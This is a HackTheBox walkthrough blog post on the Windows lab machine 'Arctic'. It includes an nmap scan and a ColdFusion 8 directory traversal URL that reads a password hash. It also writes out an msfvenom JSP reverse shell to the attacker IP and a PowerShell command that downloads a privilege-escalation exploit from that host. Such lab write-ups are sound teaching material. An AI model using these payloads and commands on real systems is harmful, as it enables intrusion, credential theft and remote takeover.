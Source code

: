 ```yaml
---
layout: post
title: "HackTheBox Walkthrough - Arctic"
author: "Emmet Friel"
categories: HackTheBox
image: htb/arctic/arctic.png
---
```


# Introduction

Arctic is a Windows machine on Hackthebox.


# Reconnaissance & Enumeration

```bash
root@kali:~/Documents/boxes/arctic# nmap -sC -sV -O -oN nmap.nmap 10.10.10.11
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 13:10 BST
Nmap scan report for 10.10.10.11
Host is up (0.027s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.73 seconds
```

The scan shows two MSRPC services and one unknown that nmap couldn’t pick up. Before checking out what it is exactly, I used rpcclient and tried to connect to the two MSRPC services with anonymous credentials:

```bash
rpcclient -U "" -N -p 135 10.10.10.11
rpcclient -U "" -N -p 49154 10.10.10.11
```

Server timed out, no luck. Back to see whats running on port 8500 so navigating to that port on the browser shows the webpage.

| ![image]({{site.github.url}}/assets/img/htb/arctic/index.png) |
| :--: |
| *Webpage running on port 8500* |

Navigating through the directory I came across an Adobe ColdFusion8 admin portal. Note that the webpages take about 20 seconds to load so be patient.

| ![image]({{site.github.url}}/assets/img/htb/arctic/portal.png) |
| :--: |
| *Adobe ColdFusion8 web portal* |

Searching information about Adobe ColdFusion 8, it came out in July 2007 and the latest version is now ColdFusion 2018 so I’m confident that it’s vulnerable. ColdFusion uses its own server-side markup language (CFML) and the application itself was wrote in Java but to verify this we can view the HTTP headers using CURL.

| ![image]({{site.github.url}}/assets/img/htb/arctic/httpheaders.png) |
| :--: |
| *Grabbing HTTP headers gives us more information about the server* |

So, ColdFusion is hosted on a JRun Web Server and that runs on JSP, another server-side language. Quick search on ColdFusion8 exploits and the one I used was: Adobe ColdFusion - Directory Traversal which refers to CVE-2010-2861: 
> “Multiple directory traversal vulnerabilities in the administrator console in Adobe ColdFusion 9.0.1 and earlier allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.”

The exploit gives us the ability to read file paths using these parameters! Reading the exploit script it shows a directory that looks like it would show us some password properties: ```http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en```

| ![image]({{site.github.url}}/assets/img/htb/arctic/hash.png) |
| :--: |
| *The directory path returned a hashed password on the webpage* |

The portal shows a hashed password that I could attempt to crack. You can use John the ripper or various websites. I used crackstation.net and it successfully cracked the password which turned out to be “happyday”. Logging into the portal you can see everything about the server from “Settings Summary” under Server Setting tab. The info shows the server is running on Windows Vista and I came across important default file paths.

| ![image]({{site.github.url}}/assets/img/htb/arctic/mappings.png) |
| :--: |
| *Important directory mappings. If get to upload files to the server we'll use these default file paths* |

On the admin portal there is an option for “Scheduled Tasks” which gives us the ability to execute a task from a remote URL! Reverse shell task coming up. We know the server handles CFML and JSP from our reconnaissance so we can decide on a web shell (CFML) or a complete shell to the machine (JSP), I went for a complete shell but the CFML webshells are under **/usr/share/webshells/cfm** on Kali. Save the task to a file called shell.jsp using the default file path mappings above so we can execute that file from ```http://10.10.10.11/CFIDE/<file>```

| ![image]({{site.github.url}}/assets/img/htb/arctic/task.png) |
| :--: |
| *Creating a task to download a file from my python webserver* |

Create a new directory to host the reverse shell file using a webserver, create a jsp reverse shell using msfvenom and setup your netcat listener. Go the **http://10.10.10.11:8500/CFIDE/shell.jsp** and then wait for your listener to catch that connection.

```bash
root@kali:~/Documents/boxes/arctic/share# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f raw > shell.jsp
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/shell.png) |
| :--: |
| *Shell access to the victim with user privs* |

# Privilege Escalation

If you run systeminfo you can see its running on Windows 2008 and there hasn’t been any patches carried out on the machine. Using Windows Exploit Suggester to find an escalation vulnerability: 

```bash
root@kali:~/Documents/boxes/arctic# python windows-exploit-suggester.py --database 2020-04-10-mssb.xls --systeminfo systeminfo.txt --quiet
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

After some trial and error, MS10-059 gave me that root shell :)

```windows
C:\Users\tolis\Desktop>powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.19:8000/MS10-059.exe','C:\Users\tolis\Desktop\exploit.exe')"
```

| ![image]({{site.github.url}}/assets/img/htb/arctic/exploit.png) |
| :--: |
| *Running the exploit* |

| ![image]({{site.github.url}}/assets/img/htb/arctic/root.png) |
| :--: |
| *Boom, root privelleges.* |